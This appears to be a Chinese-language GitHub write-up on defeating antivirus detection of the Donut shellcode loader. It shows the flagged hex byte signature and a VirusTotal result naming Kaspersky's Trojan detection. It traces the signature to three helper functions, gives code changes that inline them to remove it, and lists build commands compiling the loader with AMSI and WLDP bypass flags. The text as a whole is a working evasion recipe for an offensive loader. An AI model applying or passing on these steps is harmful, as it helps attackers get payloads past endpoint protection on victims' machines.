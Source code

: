 通过测试说明特征存在于 `data2222222.bin` 文件中，其内容 hex 如下

```plain
8B 54 24 0C 8B 44 24  04 56 8B F0 85 D2 74 13 57
8B 7C 24 10 2B F8 8A  0C 37 88 0E 46 83 EA 01 75
F5 5F 5E C3 8A 44 24  08 8B 4C 24 0C 57 8B 7C 24
08 F3 AA 8B 44 24 08  5F C3 8B 44 24 04 8B 4C 24
08 53 8A 10 84 D2 74  0E 8A 19 84 DB 74 08 3A D3
75 04 40 41 EB EC 0F  BE 00 0F BE 09 2B C1 5B C3
```

查杀结果: [链接](https://www.virustotal.com/gui/file/10f270e8aa8cce1554d82adce686278164571996408cef9f98d8e118f60c5221)

可以看到 `Kaspersky` 和 `ZoneAlarm by Check Point` 会报 `HEUR:Trojan.Win64.Donut.a`

进一步分析，对应 Donut 的源代码在 [clib.c](https://github.com/TheWover/donut/blob/v1.0/loader/script_dotnet.c) 中的 `Memcpy` `Memset` `_strcmp` 三个函数

### 通过 inline 字免杀 Loader

由于杀软检测上述特征序列，所以将这三个函数通过 inline 方式嵌入调用者函数中

inline 嵌入后，LOADER 将不会有上述特征序列

#### 修改代码

修改 `clib.c` 代码

```plain
inline void *Memset (void *ptr, int value, uint32_t num)
// ...
inline void *Memcpy (void *destination, const void *source, uint32_t num)
// ...
inline int _strcmp(const char *str1, const char *str2) 
// ...
```

修改 `loader.c`, 直接包含 `clib.c`

```plain
#include "loader.h"
#include "clib.c"   // <-- 添加这行
DWORD MainProc(PDONUT_INSTANCE inst);
// ...
```

#### 重新生成 `loader_exe_x86.h`

安装 VS2022，打开 `x86 Native Tools Command Prompt for VS 2022`，进入 Donut 源码目录

```plain
cl /nologo loader\exe2h\exe2h.c loader\exe2h\mmap-windows.c
cl -DBYPASS_AMSI_A -DBYPASS_WLDP_A -Zp8 -c -nologo -Gy -Os -O1 -Ob1 -GR- -EHa -Oi -GS- -Gs2147483647 -I include loader\loader.c hash.c encrypt.c loader\depack.c
link -nologo -order:@loader\order.txt -entry:DonutLoader -fixed -subsystem:console -nodefaultlib loader.obj hash.obj encrypt.obj depack.obj
exe2h.exe loader.exe
```
